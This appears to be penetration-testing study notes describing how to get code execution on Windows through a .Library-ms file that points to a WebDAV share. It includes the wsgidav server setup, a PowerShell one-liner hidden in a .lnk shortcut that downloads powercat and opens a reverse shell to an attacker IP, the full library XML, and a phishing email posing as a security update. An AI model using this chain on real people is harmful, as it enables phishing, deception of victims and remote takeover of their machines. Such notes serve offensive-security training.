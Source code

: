 ## Obtaining Code Execution via Windows Library Files

A **Windows library file** connecting to a **WebDAV** share

 1. The victim receives a `.Library-ms` file, perhaps via email. When they double-click the file, it will appear as a regular directory in **Windows Explorer**.

 2. In the WebDAV directory, provide a `.lnk` shortcut file to execute a PowerShell reverse shell. The user must double-click our `.lnk` payload file.

```bash
pip3 install wsgidav
mkdir /home/kali/webdav

/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

**location of the item** input field of the `automatic_configuration.lnk` shortcut file

```bat
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1'); powercat -c 192.168.119.3 -p 4444 -e powershell"
```

`config.Library-ms`
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

## Email Pretexting and Sending

`body.txt`
```
Hey!

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```
